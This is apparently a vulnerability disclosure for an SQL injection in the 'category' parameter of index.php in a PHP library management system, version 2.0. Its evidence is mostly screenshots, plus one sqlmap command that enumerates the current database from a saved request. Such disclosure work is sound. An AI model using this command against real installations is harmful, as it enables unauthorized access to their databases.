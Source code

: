 **Title:** Library Management System In PHP With Source Code (Ver.2.0) index.php sql Injection 

**Vendor:** Fabian Ros [Library Management System In PHP With Source Code (Ver.2.0) - Source Code & Projects](https://code-projects.org/library-management-system-in-php-with-source-code-ver-2-0/)

**Affected Product Version**: 2.0

**Vulnerability Type**: SQL Injection

**Audit:**

/index.php

The `category` parameter is is injected into the query unfiltered.

![image-20250702145804985](./images/image-20250702145804985.png)

![image-20250702145749617](./images/image-20250702145749617.png)



**Verify**

1. Prepare request txt `b.txt`

   ![image-20250702150833397](./images/image-20250702150833397.png)

2. sqlmap exploit

```shell
sqlmap -r b.txt -p category  --batch --current-db --flush-session
```

![image-20250702150306018](./images/image-20250702150306018.png)



![image-20250702151202285](./images/image-20250702151202285.png)